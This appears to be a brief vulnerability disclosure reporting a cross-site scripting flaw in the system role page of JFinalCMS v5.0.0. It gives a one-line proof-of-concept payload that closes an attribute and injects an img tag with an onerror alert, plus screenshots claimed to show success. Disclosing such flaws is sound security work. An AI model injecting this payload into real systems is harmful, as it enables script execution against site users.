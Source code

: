 
target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

XSS exists at system role


![图片](https://github.com/JinYunlei/cms/assets/134837499/2c5cef75-bf6c-415c-a546-8583b072f8f7)


poc:`"><img src=1 onerror=alert(1)>`


![图片](https://github.com/JinYunlei/cms/assets/134837499/e0144fad-3188-4c12-92ce-97b34ef84f4a)


successed

![图片](https://github.com/JinYunlei/cms/assets/134837499/2d638709-7f08-42ef-86ad-d98b9978baa5)

